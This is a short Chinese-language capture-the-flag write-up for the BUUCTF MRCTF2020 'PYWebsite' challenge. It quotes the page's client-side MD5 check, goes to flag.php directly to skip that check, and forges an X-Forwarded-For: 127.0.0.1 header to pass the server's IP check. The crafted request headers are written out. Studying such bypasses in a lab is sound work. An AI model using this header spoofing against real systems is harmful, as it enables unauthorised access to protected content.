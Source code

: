 # T23 PYWebsite

> 题目： BUUCTF [MRCTF2020]PYWebsite

__0x00 审题__

打开页面，难道可以买到flag？只要66，买不到吃亏，买不到上当，就能买到flag（）

查看源码：

```
 function enc(code){
      hash = hex_md5(code);
      return hash;
    }
    function validate(){
      var code = document.getElementById("vcode").value;
      if (code != ""){
        if(hex_md5(code) == "0cd4da0223c0b280829dc3ea458d655c"){
          alert("您通过了验证！");
          window.location = "./flag.php"
        }else{
          alert("你的授权码不正确！");
        }
      }else{
        alert("请输入授权码");
      }
      
    }
 ```
我们看到了MD5加密，但是反正其目的是为了打开flag.php，所以我们不如直接打开

__0x01 解题__

1. url中打开flag.php,得到

```
我已经把购买者的IP保存了，显然你没有购买

验证逻辑是在后端的，除了购买者和我自己，没有人可以看到flag
```
> 关注点：IP（很显然我们不知道他们的IP，但是我们可以得知自己的IP为127.0.0.1）


2. 利用xff，抓包构造ip

```
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
X-Forwarded-For:127.0.0.1
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

得到回显即为答案

__0x02 总结__

___万变不离其宗，做好复习！！！___

